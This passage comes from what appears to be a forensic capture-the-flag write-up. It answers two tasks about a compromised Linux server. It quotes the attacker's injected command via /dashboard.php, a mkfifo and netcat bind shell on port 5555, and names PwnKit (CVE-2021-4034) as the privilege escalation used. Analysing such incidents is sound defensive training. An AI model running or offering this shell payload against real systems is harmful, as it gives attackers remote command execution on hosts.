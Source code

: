 >Task 9: What command gave the attacker their initial access ?

![37f21fd9adc3343e7d8f8173d030e98a.png](../../../_resources/37f21fd9adc3343e7d8f8173d030e98a-1.png)
We know that an `/dashboard.php` can be abused to execute arbitrary command here and look like an attacker successfully executed to listen connection on port 5555 and its a bind shell (not reverse shell as we thought)
```
|mkfifo /tmp/mypipe;cat /tmp/mypipe|/bin/bash|nc -l -p 5555 >/tmp/mypipe
```

>Task 10: What is the CVE identifier for the vulnerability that the attacker exploited to achieve privilege escalation (e.g, CVE-2016-5195) ?

![df83c953b4f991791a94e82a49c6bfcd.png](../../../_resources/df83c953b4f991791a94e82a49c6bfcd-1.png)
After the attacker connected to bind shell on port 5555, he used [pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034) which is a local privilege escalation vulnerability on Linux
